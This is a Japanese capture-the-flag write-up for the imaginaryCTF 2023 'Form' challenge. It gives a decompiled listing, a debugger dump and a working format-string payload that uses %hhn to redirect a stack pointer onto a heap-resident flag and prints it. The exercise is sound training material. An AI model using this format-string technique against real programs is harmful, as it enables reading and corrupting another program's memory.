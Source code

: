 このwriteupはこちら[https://hackmd.io/@yqroo/ictf2023#Form]を参考にしました。

,,,
$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, [略], not stripped

$ pwn checksec vuln
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
,,,

ghidraで見てみると問題文通りformat stingのエラーがある。

,,,
void main(void)
{
  size_t length;
  long in_FS_OFFSET;
  char *format_string;
  char **fp_buf;
  FILE *fp;
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fp_buf = (char **)malloc(0x20);
  format_string = (char *)malloc(0x20);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  fp = fopen("flag.txt","r");
  fgets((char *)fp_buf,0x20,fp);
  fgets(format_string,0x20,stdin);
  fp_buf = &format_string;
  length = strlen((char *)fp_buf);
  if (length < 0x18) {
    printf(format_string);
  }
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
,,,

長さは24まで。exitで終了しているのでfini_arrayの書き換えで何回もとはいかない。またフラグはmallocで
確保されているので、書き換える位置を考える必要がある。
printf実行前のスタックとレジスタは以下の通り(思いっきり答え書いちゃってた)。

,,,
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x007f468ae36992  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rsp   : 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rbp   : 0x007ffe711a4280  →  0x0000000000000001
$rsi   : 0x007f468af3bb23  →  0xf3da80000000000a ("\n"?)
$rdi   : 0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
$rip   : 0x0055da3fd742d8  →  <main+207> call 0x55da3fd740e0 <printf@plt>
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x007ffe711a4398  →  0x007ffe711a6492  →  0x53006e6c75762f2e ("./vuln"?)
$r13   : 0x0055da3fd74209  →  <main+0> endbr64
$r14   : 0x0055da3fd76d90  →  0x0055da3fd741c0  →  <__do_global_dtors_aux+0> endbr64
$r15   : 0x007f468af93040  →  0x007f468af942e0  →  0x0055da3fd73000  →   jg 0x55da3fd73047
$eflags: [zero CARRY parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007ffe711a4260│+0x0000: 0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"       ← $rdx, $rsp
0x007ffe711a4268│+0x0008: 0x007ffe711a4260  →  0x0055da3ff8e2d0  →  "%c%c%c%c%c%155c%hhn%6$s\n"
0x007ffe711a4270│+0x0010: 0x0055da3ff8e300  →  0x00000000fbad2488
0x007ffe711a4278│+0x0018: 0x890db47e39d20300

gef➤  search-pattern flag{
[+] Searching 'flag{' in memory
[+] In '[heap]'(0x55da3ff8e000-0x55da3ffaf000), permission=rw-
  0x55da3ff8e2a0 - 0x55da3ff8e2b9  →   "flag{this_is_test_flag}\n"
,,,

フラグのアドレスとformatを書き込んだアドレスは1byte分しか変わらない(mallocで確保したサイズが小さいので当然だけど)。つまりスタックにあるアドレス(64bitでいうと6番目の引数)下位1byteを0xa0に書き換えてやればいい。

この問題をやるまで知らなかったが、書き込める指定子は%nだけではないらしく
・%hn  2byte
・%hhn 1byte
といったものもある。これを利用して0xa0に書き込み、%6$sでフラグを表示させる。


## Tips
ここで自分用におさらいとして書くが、format_stringは32bitと64bitは表示される順番が異なる(正確に言うと呼び出し規約に依るかもしれない)。
例えば%x.%x.%x.%x.%xの場合
・32bit(cdecl)    各引数に対応したスタックの中身が表示される
・64bit(fastcall) 各引数に対応したレジスタが表示された後、スタックの中身

